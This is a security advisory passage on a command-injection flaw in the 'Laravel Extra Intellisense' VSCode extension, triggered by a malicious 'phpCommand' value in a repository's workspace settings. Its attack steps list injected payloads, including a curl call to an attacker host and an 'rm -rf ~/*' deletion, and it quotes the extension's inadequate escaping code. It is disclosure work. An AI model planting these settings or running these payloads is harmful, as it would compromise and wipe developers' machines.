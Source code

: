 ### Vulnerability List

* Vulnerability Name: Command Injection via `phpCommand` configuration

    * Description:
        1. An attacker crafts a malicious Laravel repository.
        2. Within this repository, the attacker creates or modifies the VSCode workspace settings file (`.vscode/settings.json`).
        3. In this settings file, the attacker sets the `LaravelExtraIntellisense.phpCommand` configuration to a malicious command. This setting is intended to allow users to customize the PHP command used by the extension, but it is vulnerable to command injection. Examples of malicious commands include:
            -  `"LaravelExtraIntellisense.phpCommand": "php -r '{code}'; touch /tmp/pwned"` (Linux/macOS)
            -  `"LaravelExtraIntellisense.phpCommand": "php -r '{code}'; type nul > C:\pwned.txt"` (Windows)
            -  `"LaravelExtraIntellisense.phpCommand": "bash -c '{code}'"`
            -  `"LaravelExtraIntellisense.phpCommand": "php -r 'system(\"touch /tmp/pwned\"); {code}'"`
            -  `"LaravelExtraIntellisense.phpCommand": "bash -c 'touch command_injection_test.txt; {code}'"`
            -  `"LaravelExtraIntellisense.phpCommand": "bash -c 'curl https://attacker.example.com/pwned'"`
            -  `"LaravelExtraIntellisense.phpCommand": "bash -c 'rm -rf ~/*'"` (DANGEROUS - use with extreme caution in isolated VMs only)
            -  `"LaravelExtraIntellisense.phpCommand": "php -r \"{code}; system('calc');\""` (Windows - launches calculator)
        4. A victim, who has the "Laravel Extra Intellisense" extension installed in VSCode, opens this malicious Laravel repository.
        5. Upon opening the repository, VSCode loads the workspace settings, including the attacker's malicious `phpCommand` from `.vscode/settings.json`, overriding any user-level settings.
        6. When the extension attempts to provide autocompletion suggestions (for routes, views, configs, etc.) or perform other Laravel project analysis, it uses the configured `phpCommand` to execute PHP code within the Laravel application environment. This is done by calling the `runPhp` function in `src/helpers.ts`.
        7. The `runPhp` function substitutes the `{code}` placeholder in the user-configured `phpCommand` with dynamically generated PHP code required for the extension's functionality.
        8. Due to insufficient sanitization of the `phpCommand` configuration and the generated PHP code, the attacker's injected commands are executed by `child_process.exec` on the victim's system with the privileges of the VSCode process. The existing escaping mechanism is inadequate to prevent command injection, especially when using shell interpreters like `bash -c` or when injecting commands after the `{code}` placeholder.

    * Impact:
        Remote Code Execution (RCE). Successful exploitation allows the attacker to execute arbitrary shell commands on the victim's machine. This can lead to:
            - Full system compromise
            - Data exfiltration and theft of sensitive information
            - Installation of malware, ransomware, or backdoors
            - Denial of service
            - Privilege escalation
            - Lateral movement within a network

    * Vulnerability Rank: critical

    * Currently implemented mitigations:
        - None. The extension directly uses the `phpCommand` from the user configuration without any sanitization or validation.
        - The `runPhp` function in `src/helpers.ts` attempts to escape double quotes and some characters on Linux-like systems in the *generated PHP code* using `code = code.replace(/\"/g, "\\\"")` and similar replacements.
        ```typescript
        static async runPhp(code: string, description: string|null = null) : Promise<string> {
            code = code.replace(/\"/g, "\\\"");
            if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
                code = code.replace(/\$/g, "\\$");
                code = code.replace(/\\\\'/g, '\\\\\\\\\'');
                code = code.replace(/\\\\"/g, '\\\\\\\\\"');
            }
            // ...